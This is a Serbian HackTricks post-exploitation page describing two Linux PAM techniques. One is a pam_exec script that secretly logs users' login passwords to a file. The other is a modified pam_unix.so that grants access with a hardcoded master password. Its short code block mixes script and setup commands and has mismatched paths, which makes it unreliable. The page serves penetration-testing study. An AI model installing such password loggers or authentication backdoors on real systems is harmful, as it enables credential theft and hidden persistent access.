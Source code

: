 # Linux Post-Exploitation

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Snimanje lozinki za prijavljivanje pomoću PAM-a

Konfigurišimo PAM modul da beleži svaku lozinku koju korisnik koristi za prijavljivanje. Ako ne znate šta je PAM, proverite:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Za dodatne detalje proverite** [**originalni post**](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/). Ovo je samo sažetak:

**Pregled tehnike:** Pluggable Authentication Modules (PAM) pružaju fleksibilnost u upravljanju autentifikacijom na Unix baziranim sistemima. Mogu poboljšati bezbednost prilagođavanjem procesa prijavljivanja, ali takođe mogu predstavljati rizike ako se zloupotrebljavaju. Ovaj sažetak opisuje tehniku za snimanje podataka za prijavljivanje pomoću PAM-a, zajedno sa strategijama za ublažavanje rizika.

**Snimanje podataka za prijavljivanje:**

* Napravljen je bash skript nazvan `toomanysecrets.sh` koji beleži pokušaje prijavljivanja, snimajući datum, korisničko ime (`$PAM_USER`), lozinku (putem stdin-a) i IP adresu udaljenog hosta (`$PAM_RHOST`) u `/var/log/toomanysecrets.log`.
* Skript je postavljen kao izvršiv i integrisan u PAM konfiguraciju (`common-auth`) koristeći modul `pam_exec.so` sa opcijama za tiho izvršavanje i izlaganje autentifikacionog tokena skripti.
* Ovaj pristup pokazuje kako se kompromitovan Linux host može iskoristiti za diskretno beleženje podataka za prijavljivanje.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```

### Backdooring PAM

**Za dalje detalje pogledajte** [**originalni post**](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9). Ovo je samo sažetak:

Pluggable Authentication Module (PAM) je sistem koji se koristi pod Linuxom za autentifikaciju korisnika. Radi na tri osnovna koncepta: **korisničko ime**, **lozinka** i **servis**. Konfiguracioni fajlovi za svaki servis se nalaze u direktorijumu `/etc/pam.d/`, gde se autentifikacija vrši pomoću deljenih biblioteka.

**Cilj**: Modifikovati PAM kako bi se omogućila autentifikacija sa određenom lozinkom, zaobilazeći stvarnu korisničku lozinku. Poseban fokus je na deljenoj biblioteci `pam_unix.so` koja se koristi u fajlu `common-auth`, a koja se uključuje u skoro sve servise radi provere lozinke.

### Koraci za modifikaciju `pam_unix.so`:

1. **Locirajte direktivu za autentifikaciju** u fajlu `common-auth`:

* Linija koja proverava korisničku lozinku poziva `pam_unix.so`.

2. **Modifikujte izvorni kod**:

* Dodajte uslovnu izjavu u izvorni fajl `pam_unix_auth.c` koja omogućava pristup ako se koristi unapred definisana lozinka, inače se nastavlja sa uobičajenim procesom autentifikacije.

3. **Rekompajlirajte i zamenite** modifikovanu biblioteku `pam_unix.so` u odgovarajućem direktorijumu.
4. **Testiranje**:

* Pristup je omogućen putem različitih servisa (login, ssh, sudo, su, screensaver) sa unapred definisanom lozinkom, dok uobičajeni procesi autentifikacije ostaju nepromenjeni.

{% hint style="info" %}
Ovaj proces možete automatizovati pomoću [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
